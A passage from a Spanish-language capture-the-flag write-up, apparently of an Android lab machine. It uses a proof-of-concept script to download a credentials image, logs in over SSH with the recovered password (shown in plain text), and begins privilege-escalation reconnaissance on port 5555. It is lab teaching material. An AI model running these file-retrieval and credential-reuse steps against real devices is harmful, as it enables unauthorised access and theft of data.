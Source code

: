 Se observa un archivo llamativo denominado **creds.jpg**. Por lo tanto, se plantea la posibilidad de intentar transferirlo a nuestro equipo para examinar su contenido.


```bash
python poc.py -g /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
	from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
```
{: .nolineno}

Dentro de este archivo, parece haber una pareja de usuario y contraseña. Por lo tanto, se plantea la opción de intentar acceder al equipo mediante el servicio SSH utilizando dichas credenciales.


![creds](/explore/creds.png)




```bash
ssh kristi@10.10.10.247 -p 2222
Unable to negotiate with 10.10.10.247 port 2222: no matching host key type found. Their offer: ssh-rsa
```
{: .nolineno}


Lamentablemente, se encuentra un error. Después de investigar un poco, se descubre que se puede solucionar utilizando la siguiente **flag**.


```bash
ssh kristi@10.10.10.247 -p 2222 -oHostKeyAlgorithms=ssh-rsa
Password authentication
(kristi@10.10.10.247) Password: Kr1sT!5h@Rp3xPl0r3!
:/ $ whoami
u0_a76
:/ $ hostname
localhost
```
{: .nolineno}

## Escalada de Privilegios

Una vez dentro del equipo, se observa que el puerto **5555**, que anteriormente fue filtrado por nmap, ahora está abierto. Se procede a investigar qué servicio suele ejecutarse en dicho puerto.


```bash
netstat -tunlp                                                            
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
tcp        0      1 10.10.10.247:60240      1.0.0.1:853             SYN_SENT    -
tcp        0      1 10.10.10.247:55204      1.1.1.1:853             SYN_SENT    -
tcp6       0      0 :::2222                 :::*                    LISTEN      3701/net.xnano.android.sshserver
tcp6       0      0 :::5555                 :::*                    LISTEN      -
tcp6       0      0 ::ffff:127.0.0.1:34389  :::*                    LISTEN      -
tcp6       0      0 ::ffff:10.10.10.2:44405 :::*                    LISTEN      -
tcp6       0      0 :::59777                :::*                    LISTEN      -
tcp6       0      0 ::ffff:10.10.10.2:59777 ::ffff:10.10.14.1:42030 CLOSE_WAIT  -
udp        0      0 10.10.10.247:41034      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:53391      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:43226      1.1.1.1:53              ESTABLISHED -
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -
udp        0      0 10.10.10.247:58688      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:47496      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:61921      1.1.1.1:53              ESTABLISHED -
```